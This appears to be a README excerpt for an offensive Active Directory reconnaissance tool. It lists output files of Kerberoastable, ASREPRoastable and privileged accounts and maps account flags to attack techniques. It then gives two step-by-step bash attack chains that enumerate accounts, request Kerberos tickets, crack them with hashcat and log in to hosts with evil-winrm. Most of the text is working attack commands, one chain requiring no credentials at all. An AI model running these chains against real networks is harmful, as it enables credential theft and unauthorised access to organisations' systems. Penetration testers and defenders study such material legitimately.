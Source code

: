 ## Output Files

| File | Contents |
|------|----------|
| `ldaplist.txt` | Accessible Domain Controllers |
| `users.txt` | All usernames |
| `spns.txt` | Kerberoastable accounts (users with SPNs) |
| `asrep_users.txt` | ASREPRoastable accounts (no preauth) |
| `admin_users.txt` | Privileged accounts |
| `ldap_details.txt` | Full report with UAC analysis |
| `ldap_details.json` | Machine-readable JSON |

## Critical UAC Flags

| Flag | Value | Attack Vector |
|------|-------|---------------|
| `DONT_REQ_PREAUTH` | 0x400000 | **ASREPRoasting** - No password needed! |
| `TRUSTED_FOR_DELEGATION` | 0x80000 | **Unconstrained Delegation** - Impersonate anyone |
| `TRUSTED_TO_AUTH_FOR_DELEGATION` | 0x1000000 | **Constrained Delegation** - S4U attacks |
| `DONT_EXPIRE_PASSWORD` | 0x10000 | Password never changes |
| `PASSWD_NOTREQD` | 0x20 | No password required |

## Attack Chains

### Chain 1: LDAP → Kerberoast → WinRM
```bash
# 1. Find Kerberoastable accounts
./ldapseek.py dclist.txt --spns -u user -p pass

# 2. Request TGS tickets
../kerbseek/kerbseek.py --kerberoast --spns spns.txt -d CORP --dc dc01

# 3. Crack tickets
hashcat -m 13100 tgs_hashes.txt rockyou.txt

# 4. Use cracked creds
evil-winrm -i target -u cracked_user -p cracked_pass
```

### Chain 2: Unauthenticated ASREPRoast
```bash
# 1. Find ASREPRoastable (no creds!)
./ldapseek.py dclist.txt --asrep

# 2. Request AS-REP (no creds!)
../kerbseek/kerbseek.py --asreproast --users asrep_users.txt -d CORP --dc dc01

# 3. Crack AS-REP
hashcat -m 18200 asrep_hashes.txt rockyou.txt

# 4. First foothold!
evil-winrm -i dc01 -u cracked_user -p cracked_pass
```
